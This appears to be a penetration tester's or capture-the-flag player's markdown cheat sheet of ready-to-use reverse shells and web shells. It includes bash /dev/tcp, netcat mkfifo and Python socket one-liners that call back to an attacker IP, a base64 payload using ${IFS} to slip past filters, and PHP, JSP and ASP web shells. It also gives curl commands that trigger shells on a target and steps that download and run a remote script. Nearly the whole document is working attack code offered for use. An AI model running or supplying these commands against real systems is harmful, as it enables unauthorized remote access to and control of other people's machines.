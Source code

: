 # SHELL
## REVERSE SHELL
### OPEN:
- [Generator](https://www.revshells.com/)
- `sh -i >& /dev/tcp/10.10.14.5/9999 0>&1` Use in files(if the second one does not work)
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 9999 >/tmp/f` Use in files

- `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'` Python 

- `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` PHP

- `If we can execute commands on the target, we can try to create MSFVenom payload and execute it inside target`

### SEND:
- `echo 'sh -i >& /dev/tcp/10.10.14.8/9999 0>&1' | base64 ` - Convert reverse shell to base64
- `echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOC85OTk5IDA+JjEK"|base64${IFS}-d|bash` - Send the payload
- `bash -c("sh -i >& /dev/tcp/10.10.14.5/4444 0>&1")` - Execute the reverse shell

## WEB SHELL (https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
### OPEN:
- `<?php SYSTEM($_REQUEST['cmd']); ?>` PHP
- `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>` jsp
- `<% eval request("cmd") %>` asp
- https://github.com/BustedSec/webshell/blob/master/webshell.war java/war (Tomcat, Axis2, or WebLogic)

### SEND:
- `curl 10.10.11.116/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.60/443 0>&1"'`
- `bash -c 'sh -i >%26 /dev/tcp/10.10.14.5/9999 0>%261'`

### UPLOAD REVERSE SHELL FILE
- `curl 10.10.14.8:9998/Exploit/bash.sh -o /tmp/bash.sh`
- `./tmp/bash.sh`
- `bash /tmp/bash.sh`

## LISTENING SHELL:
- `nc -lnvp 9999`

### Antak Webshell (https://github.com/samratashok/nishang/tree/master/Antak-WebShell)
